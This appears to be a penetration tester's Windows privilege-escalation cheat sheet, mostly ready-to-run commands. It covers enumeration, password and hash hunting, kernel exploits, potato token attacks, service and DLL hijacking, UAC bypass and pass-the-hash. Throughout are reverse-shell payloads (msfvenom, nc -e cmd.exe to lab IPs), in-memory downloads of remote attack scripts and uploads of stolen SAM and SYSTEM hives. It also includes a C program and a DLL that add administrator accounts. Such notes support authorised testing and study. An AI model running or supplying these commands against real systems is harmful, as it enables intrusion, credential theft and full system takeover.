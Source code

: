 # Privilege Escalation (Windows)

<details>

<summary>Automated Tools</summary>

* [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Windows Privesc Check](https://github.com/pentestmonkey/windows-privesc-check)

If unable to run scripts/executables on target, use Windows Exploit Suggester on attacker's machine

### Windows Exploit Suggester

On Victim: `systeminfo`

On Attacker:&#x20;

```bash
python2.7 windows-exploit-suggester.py --update
```

```bash
python2.7 windows-exploit-suggester.py -i systeminfo -d 2023-03-10-mssb.xls
```

### PowerUp.ps1

```bash
powershell -ep bypass -c "Import-Module .\powerup.ps1; Invoke-AllChecks"
```

```bash
powershell -ep bypass
Import-Module .\powerup.ps1
. .\powerup.ps1
Invoke-AllChecks
```

### Windows Privesc Check

<pre><code><strong>windows-privesc-check --dump -G
</strong></code></pre>

</details>

### Enumeration

<details>

<summary>Basic System Info</summary>

* To find the username the shell is running as

```bash
whoami
```

* Checks privileges

```bash
whoami /priv
```

* To find the OS, version and architecture

```bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

* List system-wide updates

```shell
wmic qfe get Caption, Description, HotFixID, InstalledOn
```

* Powershell command to enumerate the loaded device drivers and kernel modules

```shell
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
```

* Request the version of each of the loaded driver

```shell
Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}
```

</details>

<details>

<summary>Users &#x26; Groups</summary>

* To find the user and groups that a user belongs

```shell
net user <username>
```

* To find other accounts

```shell
net user
```

* Check who's in the local administrator group

```bash
net localgroup administrators
```

* Check what groups the user is in

```bash
whoami /groups
```

</details>

<details>

<summary>Registry</summary>

```bash
reg query HKLM /f password /t REG_SZ /s
```

* Find admin AutoLogon credentials

```bash
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

* Check if Always Install Elevated is enabled

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

```shell
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

</details>

<details>

<summary>Network </summary>

* Show network interfaces

```shell
ipconfig /all
```

* Show the routing table

```shell
route print
```

* Show active listening network connections

```shell
# To obtain the PID, listening ports
netstat -an | findstr LISTEN

# To determine which service is running on a particular port
tasklist /v | findstr <PID>
powershell -c Get-Process -Id (Get-NetTCPConnection -LocalPort 8888).OwningProcess
```

Are there any internal services? (Local address that's not 0.0.0.0)

* Show the firewall profile&#x20;
  * is it active?

```shell
netsh advfirewall show currentprofile
```

#### Show all firewall rules

* New:

```bash
netsh advfirewall firewall dump
```

* Old:

```shell
netsh advfirewall firewall show rule name=all
```

```bash
netsh firewall show state
```

```bash
netsh firewall show config
```

* Obtain different drives' names

```bash
wmic logicaldisk get caption
```

* List all drives that are currently mounted and those physically connected but not mounted

```shell
mountvol
```

</details>

<details>

<summary>Services </summary>

* View scheduled tasks

```shell
schtasks /query /fo LIST /v
```

* Lists applications that are installed by Windows Installer

```shell
wmic product get name, version, vendor
```

* To find the services

```bash
sc queryex type= service
```

* Running services

```shell
tasklist /SVC
```

</details>

<details>

<summary>Local Administrator Password Solution (LAPS)</summary>

* Secure and scalable way of remotely managing the local administrator password for domain-joined computers
  * ms-mcs-AdmPwd
    * Contains the clear text password of the local administrator account

## Check if LAPS is installed Locally

```powershell
# Identify if LAPS installed to Program Files
Get-ChildItem 'C:\Program Files\LAPS\CSE\Admpwd.dll'
Get-ChildItem 'C:\Program Files (x86)\LAPS\CSE\Admpwd.dll'
dir 'C:\Program Files\LAPS\CSE\'
dir 'C:\Program Files (x86)\LAPS\CSE\'

# Enumerate domain computers using LAPS via PowerView
Get-DomainComputer -Domain domain.com -LDAPFilter '(ms-Mcs-AdmPwdExpirationtime=*)'

# Identify which groups can view LAPS passwords
Get-DomainOU -Domain domain.com | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object { $_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier); $_ }
```

## Exploitation

```powershell
# PowerView
iex (New-Object System.Net.WebClient).DownloadString('http://192.168.45.198/PowerView.ps1')
Get-DomainComputer  | Select-Object 'dnshostname','ms-mcs-admpwd' | Where-Object {$_."ms-mcs-admpwd" -ne $null}

# OR LAPSToolKit
# git clone https://github.com/leoloobeek/LAPSToolkit.git
iex (New-Object Net.Webclient).DownloadString("http://IP/LAPSToolkit.ps1")
# Show LAPS enabled computers && cleartext password if any
Get-LAPSComputers
# Get the groupname that can view LAPS passwords
Find-LAPSDelegatedGroups
# Find the accounts that can view LAPS passwords
Get-NetGroupMember -GroupName "XXX"
```

</details>

<details>

<summary>Files &#x26; Directories </summary>

Use `dir /a` to see hidden files (eg: `.git` files)

* Look at PowerShell history file

```sh
PS C:> cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine

# $env:APPDATA --> C:\Users\sql_svc\AppData\Roaming
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

```bash
powershell -c dir $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine
powershell -c type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Search for any file or directory that allows the Everyone group write permissions

```shell
accesschk.exe -uws "Everyone" "C:\Program Files"
```

* AccessChk from SysInternals

- Powershell cmd to find files that can be modified by everyone

```shell
Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```

</details>

<details>

<summary>Paths</summary>

### User PATH

```bash
%PATH%
FOR /F "tokens=1,3* skip=2" %G IN ('reg query HKCU\Environment') DO @echo %G=%H %I
```

### Global PATH

```bash
 FOR /F "tokens=1,3* skip=2" %G IN ('reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment"') DO @echo %G=%H %I
```

</details>

<details>

<summary>Password Hunting</summary>

* Searching for the string `password` in files recursively from a directory
  * `s` = recursive
  * `p` = skip non-printable characters
  * `i` = case insensitive
  * `n` = print line numbers

```bash
findstr /spin /c:"password" *.*
```

```bash
findstr /si password *.xml *.ini *.txt
```

* Windows Autologin

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

* Powershell history file

```powershell
# In Powershell
cd $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\

# In Cmd
C:\Users\YourUserName\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```

* VNC

```bash
reg query "HKCU\Software\ORL\WinVNC3\Password"
```

* SNMP

```bash
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
```

* Putty

```bash
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```

* Registry

```bash
reg query HKLM /f password /t REG_SZ /s
```

```bash
findstr /si password *.txt *.ini *.config
```

</details>

<details>

<summary>Email Hunting</summary>

```bash
dir *.dbx /s
```

</details>

<details>

<summary>Presence of WSL</summary>

```bash
where /R c:\windows bash.exe
```

```bash
where /R c:\windows wsl.exe
```

</details>

<details>

<summary>Default files in Windows</summary>

* OS Determination

```bash
\windows\system32\license.rtf
```

```bash
\windows\system32\eula.txt
```

</details>

### Common Methods

<details>

<summary>Kernel</summary>

[https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

### SMBGhost&#x20;

```bash
# CVE-2020-0796
# https://github.com/danigargu/CVE-2020-0796

# Compile it with Visual Studio. Change payload in exploit.cpp line 204 and add msfvenom payload 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.60 LPORT=8081 -f dll -f csharp

# Compile it. Change 'debug' to 'release', set correct architecture. 
# Transfer to target

.\cve-2020-0796-local.exe 
```

### MS16-032

<pre class="language-bash"><code class="lang-bash"># https://github.com/egre55/windows-kernel-exploits/blob/master/MS16-032:%20Secondary%20Logon%20Handle/Invoke-MS16-032-Remote-Shell.ps1#L10
<strong>
</strong><strong>msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=53 -f exe -o reverse.exe
</strong>
#Edit inside Invoke-MS16-032-Remote-Shell.ps1
Remove all the "/c C:\Users\Public\Music\nc.exe host port -e cmd.exe"
Edit all the "C:\Windows\System32\cmd.exe" to "c:\HFS\reverse.exe"

# Must use the following 64bit Powershell exe
c:\windows\sysnative\windowspowershell\v1.0\powershell.exe -ep bypass .\Invoke-MS16-032-Remote-Shell.ps1
</code></pre>

</details>

<details>

<summary>Tater (Hot Potato)</summary>

[https://github.com/Kevin-Robertson/Tater](https://github.com/Kevin-Robertson/Tater)

Affects the various windows versions

* Windows 7
* Windows 8
* Windows 10
* Windows Server 2008
* Windows Server 2012

Transfer `tater.ps1` over to victim

```bash
. .\tater.ps1
```

```bash
Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"
```

</details>

<details>

<summary>Show Currently Stored Creds</summary>

```bash
cmdkey /list
```

```
## Output
Target: Domain:interactive=ACCESS\\Administrator
                                                Type: Domain Password
User: ACCESS\\Administrator
```

```bash
runas /savecred /user:ACCESS\Administrator reverse.exe
```

</details>

<details>

<summary>Autoruns</summary>

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```shell
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

Have to wait for an administrator to login

</details>

<details>

<summary>Unquoted Service Path</summary>

Eg: Consider the string "c:\program files\sub dir\program name". The system tries to interpret the possibilities in the following order:&#x20;

* _**c:\program.exe, c:\program files\sub.exe, c:\program files\sub dir\program.exe, c:\program files\sub dir\program name.exe**_

```sh
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" 
```

```shell
sc qc <service_name>
```

If `START_TYPE : 2 AUTO_START` , then put in the malicious file and `shutdown /r /t 0` to restart the computer (hence, restarting the service).

```
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

```shell
net start unquotedsvc
```

c:\program.exe&#x20;

c:\program files\sub.exe&#x20;

c:\program files\sub dir\program.exe

c:\program files\sub dir\program name.exe

</details>

<details>

<summary>Binary Hijacking (Service)</summary>

```bash
# Generate Reverse Shell Executable
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.222 LPORT=80 -f exe -o reverse.exe

# Stop the service first to replace binary, otherwise access is denied.
net stop kiteservice

# Overwrite the service executable with malicious rev shell exe
move reverse.exe KiteService.exe

# Restarts the service
net start kiteservice

# Netcat Listener
┌──(root㉿kali)-[/prac_oscp/192.168.191.151]
└─# nc -lvp 80                                         
listening on [any] 80 ...
192.168.218.151: inverse host lookup failed: Unknown host
connect to [192.168.45.222] from (UNKNOWN) [192.168.218.151] 49999
Microsoft Windows [Version 10.0.19043.2130]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```

</details>

<details>

<summary>AlwaysInstallElevated</summary>

### Check the following registry keys:

Both keys are set to 1

```shell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

### Manual Method 1 (Simple)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

### OR METHOD 2: [Custom MSI (Complex)](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/AlwaysInstallElevated.md#manual-exploitation)

Open an existing random project in Visual Studio 2022-> go to Extensions tab -> Manage extensions

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Install "Microsoft Visual Studio Installer Projects 2022" --> Restart VS to complete the installation

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a adduser.c file

```c
int main ()
{
	int i;
	i = system ("net user bill P@ssw0rd123! /add");
	i = system("net localgroup administrators user /add");
	return 0;
}
```

Compile it&#x20;

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> Properties

<figure><img src="../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

Change TargetPlatform to x64

<figure><img src="../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

Right click "always\_install\_elevated\_add\_bill" --> View --> Custom Actions

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Right-click "Custom Actions" --> Add Custom Action

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Double-click into "Application Folder"

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Select "adduser.exe" --> OK

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Change Run64Bit option in Properties Window to True:

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Change build to release && build it with Cltrl-shift-b

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

```powershell
curl.exe http://192.168.45.218/always_install_elevated_add_bill.msi -o always_install_elevated_add_bill.msi
msiexec /quiet /qn /i always_install_elevated_add_bill.msi
```

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### OR USING METASPLOIT

```powershell
use exploit/windows/local/always_install_elevated
set payload windows/x64/meterpreter/reverse_tcp
set session 1
set LHOST tun0
run
```

</details>

<details>

<summary>Scheduled Tasks</summary>

```bash
type C:\DevTools\CleanUp.ps1
```

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

</details>

<details>

<summary>Dumping Local NTLM Hashes</summary>

* Need to extract out SYSTEM and SAM registry hives but they are locked by SYSTEM process --> unable to read/copy the files
* Create a volume snapshot
  * ```
    wmic shadowcopy call create Volume='C:'
    ```
  * ```
    vssadmin list shadows
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam
     C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    copy 
    \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system
     C:\users\offsec.corp1\Downloads\system
    ```
* Using reg save
  * ```
    reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
    ```
  * ```
    reg save HKLM\system C:\users\offsec.corp1\Downloads\system
    ```
* Decrypt the SYSTEM & SAM files
  * creddump
    *   ```
        git clone https://github.com/Tib3rius/creddump7
        cd creddump7
        python3 -m venv venv
        pip3 uninstall crypto 
        pip3 uninstall pycrypto 
        install pycryptodome
        python3 pwdump.py ../system1 ../sam1 
        ```



</details>

<details>

<summary>Security Account Manger (SAM) Dump</summary>

* Located in `c:\windows\system32\config`
* Extract out the passwords, hashes

```bash
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

Transfer the SAM and SYSTEM files to kali thru SMB

```shell
copy C:\Windows\Repair\SAM \\10.11.67.208\kali\
```

```shell
copy C:\Windows\Repair\SYSTEM \\10.11.67.208\kali\
```

On Kali:

```shell
git clone https://github.com/Tib3rius/creddump7;pip3 install pycryptodome
```

On Kali:

```python
python3 creddump7/pwdump.py SYSTEM SAM
```

`admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::` –> First hash is LM hash followed by NTLM hash!

On Kali:

```bash
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

</details>

<details>

<summary>Ntds.dit &#x26; SYSTEM Dump</summary>

```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```

</details>

<details>

<summary>Passing the Hash</summary>

* Pass in the full admin hash (includes both LM and NTLM hash, separated by colon)

```bash
pth-winexe -U 'admin%hash' //10.10.202.204 cmd.exe
```

</details>

<details>

<summary>User In Local Group with Admin Privileges (UAC Bypass)</summary>

### EventViewer-UACBypass

[https://github.com/CsEnox/EventViewer-UACBypass](https://github.com/CsEnox/EventViewer-UACBypass)

* Generate reverse shell

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8443 EXITFUNC=thread -f exe -o reverse.exe
```

* Abuse SeImpersonate privileges to obtain&#x20;
* Run `Invoke-EventViewer`

```bash
Import-Module .\Invoke-EventViewer.ps1
Invoke-EventViewer c:\temp\reverse.exe
```

OR using [FodhelperBypass.ps1](https://raw.githubusercontent.com/winscripting/UAC-bypass/refs/heads/master/FodhelperBypass.ps1)

```powershell
# Load FodHelper in memory
iex (new-object net.webclient).downloadstring('http://192.168.45.218/FodhelperBypass.ps1')

# Using ps_shellcode_runner
FodhelperBypass -program "powershell -c iex (new-object net.webclient).downloadstring('http://192.168.45.218/runall.ps1')"
```

</details>

<details>

<summary>Running Administrator account from normal user account</summary>

```bash
runas /env /profile /user:Administrator "c:\temp\nc.exe -e cmd.exe 192.168.45.5 443"
```

</details>

### Token Impersonation Attacks

<details>

<summary>SigmaPotato (Windows 2012 - Windows 2022)<br>Abuse seImpersonate privileges to obtain NT AUTHORITY\SYSTEM </summary>

```bash
.\sigmapotato.exe --revshell 192.168.45.218 4444
```

[https://github.com/tylerdotrar/SigmaPotato](https://github.com/tylerdotrar/SigmaPotato)

</details>

<details>

<summary>PrintSpoofer (Windows 10, Server 2016/2019)</summary>

Works on all versions of Server 2016 and Server 2019, as well as every version of Windows 10 from at least 1607 onwards.

![](<../.gitbook/assets/image (147).png>)

![](<../.gitbook/assets/image (125).png>)

* [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

- From Local/NETWORK SERVICE to system by abusing SeImpersonatePrivilege

* This step is purely to simulate getting a service account shell

```bash
.\printspoofer64.exe -c "nc64.exe -e cmd.exe 192.168.45.213 53"
```

```bash
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

```bash
C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i
```

</details>

<details>

<summary>Juicy Potato</summary>

Does not work on Win10 version >= 1809, Server2019. Check Win10 versions [here](https://juggernaut-sec.com/wp-content/uploads/2022/05/image-218.png).

![](<../.gitbook/assets/image (137).png>)

* [https://github.com/ohpe/juicy-potato/releases/tag/v0.1](https://github.com/ohpe/juicy-potato/releases/tag/v0.1)

- `SeImpersonatePrivilege` is enabled —> vuln to JuicyPotato PrivEsc
- Transfer nc.exe `copy \\10.10.14.6\share\nc32.exe .`

```bash
juicypotato.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\kohsuke\Desktop\nc32.exe -e cmd.exe 10.10.14.6 4444" -t *
```

* If obtained the following error —> might be due to wrong CLSID
  * Find CLSID. For win server 2012 —> {C49E32C6-BC8B-11d2-85D4-00105A1F8304}
  * [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
    * Find the BITS CLSIDs and test those first
  * Add as `-c {C49E32C6-BC8B-11d2-85D4-00105A1F8304}`
    * `-c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}`

```bash
Testing {5B3E6773-3A99-4A3D-8096-7765DD11785C} 1337
COM -> recv failed with error: 10038
```

* If obtained the following error —> might be windefender detecting and deleting the exploit.

```bash
[+] authresult 0
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\\SYSTEM

[-] CreateProcessWithTokenW Failed to create proc: 2

[-] CreateProcessAsUser Failed to create proc: 2
```

</details>

<details>

<summary>Incognito</summary>

* Manual way: [https://github.com/milkdevil/incognito2/blob/master/incognito.exe](https://github.com/milkdevil/incognito2/blob/master/incognito.exe)
  * ```
    incognito.exe list_tokens -u
    msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=80 -f exe -o reverse_80.exe
    incognito.exe execute -c "sandbox\Administrator" reverse_80.exe
    ```

- Metasploit's method:
  * ```
    load incognito
    list_tokens -u      (Delegation tokens allow full authentication, while Impersonation tokens allow acting as another user.)
    impersonate_token corp1\\admin
    getuid
    ```



</details>

<details>

<summary>Rogue Potato</summary>

Works on versions of Windows after the changes took place (1809+)

Requires SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege

* [Rogue Potato ](https://github.com/antonioCoco/RoguePotato/releases/tag/1.0)

- Setting up a spoofed OXID resolver
  * Forwards Kali port 135 to port 9999 on Windows.

```bash
socat tcp-listen:135,reuseaddr,fork tcp:<victim's IP>:9999
```

```bash
.\RoguePotato.exe -r 172.16.1.30 -e "C:\temp\nc.exe 172.16.1.30 443 -e cmd.exe" -l 9999
```

* `-c "{6d18ad12-bde3-4393-b311-099c346e6df9}"`

</details>

### Less Common Methods

<details>

<summary>Insecure Service Permissions (Modifiable Service)</summary>

* Checks the “user” account’s permissions on the ”daclsvc” service

- “user” account has the permission to change the service config (SERVICE\_CHANGE\_CONFIG)

```shell
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```

```shell
sc qc daclsvc
```

```shell
sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
```

```shell
net start daclsvc
```

OR USING POWERSHELL...

```powershell
cmd /c sc qc <service_name>
```

<figure><img src="../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>

Start Type --> Change to autostart

```powershell
cmd /c sc config <service_name> start=auto
```

Add final.com\nina to local administrators group: --> DO NOTE THAT LocalService doesn't have enough rights to add users

```powershell
cmd /c sc config <service_name> binpath= "net localgroup Administrators final.com\nina /add" obj= "NT AUTHORITY\SYSTEM"
```

Ensure that changes are updated & run it

```
cmd /c sc qc <service_name>
net start <service_name>
```

"The service is not responding to the control function." is normal.

<figure><img src="../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>DLL Hijacking</summary>

* Find the DLLs that have `NAME NOT FOUND` and is in writable directories.
  * eg `c:\temp\hijackme.dll`

```bash
 // For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o        output.dll
 // For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.  dll
 
 #include <windows.h>
 
 BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
     if (dwReason == DLL_PROCESS_ATTACH) {
         system("cmd.exe /k net localgroup administrators user /add");
         ExitProcess(0);
     }
     return TRUE;
 }
```

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```

* Transfer `output.dll` to `c:\temp\hijackme.dll`
* Restart the `dllsvc` service
  * `sc stop dllsvc`
  * `sc start dllsvc`

## OR..

In CLIENT01 process monitor:

![](<../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png>)

* Create malicious msasn1.dll & save to C:\Program Files\FileZilla Server --> Rev shell
  * ```powershell
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f dll -o msasn1.dll
    ```
  * ```powershell
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 443; set ExitOnSession false; exploit -j"
    ```
    *

        <figure><img src="../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


  * Start Filezilla server
* ```powershell
  Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
  copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
  ```

</details>

<details>

<summary>Weak Registry Permissions</summary>

* To find weak registry perm, use the following command
  * Will show `NT AUTHORITY\INTERACTIVE Allow FullControl`

```powershell
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Using command prompt,

```bash
sc qc regsvc
```

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```bash
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```

Registry entry for regsvc service is writable by NT AUTHORITY\INTERACTIVE group (essentially all logged-on users)

```basic
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Overwrite the ImagePath registry key to point to the reverse.exe executable

```bash
net start regsvc
```

</details>

<details>

<summary> Insecure service Executables</summary>

<pre class="language-shell"><code class="lang-shell"><strong>sc qc filepermsvc
</strong></code></pre>

It runs with SYSTEM privileges (SERVICE\_START\_NAME)

```shell
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Service binary (BINARY\_PATH\_NAME) file is writable by everyone)

```shell
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

```shell
net start filepermsvc
```

</details>

<details>

<summary>Insecure GUI Apps</summary>

Login to user account

```bash
rdesktop -u user -p password321 10.10.201.218
```

Double-click `AdminPaint` shortcut on Desktop

```bash
tasklist /V | findstr mspaint.exe
```

Paint is running with admin privileges

In Paint, `File` –> `Open`. `file://c:/windows/system32/cmd.exe`

</details>

<details>

<summary>Startup Apps</summary>

* To search for writable startup apps folder
  * he `BUILTIN\Users`group has full access ‘(F)’ to the directory

```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

* Generate reverse shell:&#x20;

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.20.202 LPORT=443 -f exe > reverse.exe
```

* Put `reverse.exe` into startup folder

```bash
copy reverse.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\reverse.exe"
```

* Wait for administrator to login

</details>

<details>

<summary>SeRestorePrivilege</summary>

```bash
mv C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
mv C:\Windows\System32\cmd.exe c:\Windows\System32\utilman.exe
```

On Kali:

```bash
rdesktop 192.168.204.165
```

Win Key + U --> Spawned NT Authority\System shell

</details>

<details>

<summary>SeBackupPrivilege</summary>

On Victim:

```bash
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

Transfer files to attacker:

```bash
# On Attacker:
wget https://raw.githubusercontent.com/Tallguy297/SimpleHTTPServerWithUpload/master/SimpleHTTPServerWithUpload.py
python3 SimpleHTTPServerWithUpload.py 80

# On Victim:
powershell -c curl.exe -F 'file=@c:\\temp\\system' http://192.168.45.162
powershell -c curl.exe -F 'file=@c:\\temp\\sam' http://192.168.45.162
```

Dump out the hashes

```bash
git clone https://github.com/Tib3rius/creddump7
python3 creddump7/pwdump.py system sam
```

</details>

<details>

<summary>WerTrigger</summary>

For Example, MySQL Service has File Write permission as SYSTEM

Checking to see if MySQL Service has File Write perm as SYSTEM:

<pre class="language-sql"><code class="lang-sql">MariaDB [(none)]> select load_file('C:\\temp\\chiselx64.exe') into dumpfile 'C:\\temp\\try.exe';
<strong>
</strong><strong>#Have File Write permission as SYSTEM through mysql.
</strong>c:\temp>icacls try.exe
try.exe NT AUTHORITY\SYSTEM:(I)(F)
        BUILTIN\Administrators:(I)(F)
        BUILTIN\Users:(I)(RX)
</code></pre>

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger)

[https://github.com/sailay1996/WerTrigger](https://github.com/sailay1996/WerTrigger)

```sql
c:\temp>certutil -urlcache -f http://192.168.45.5/nc.exe nc.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

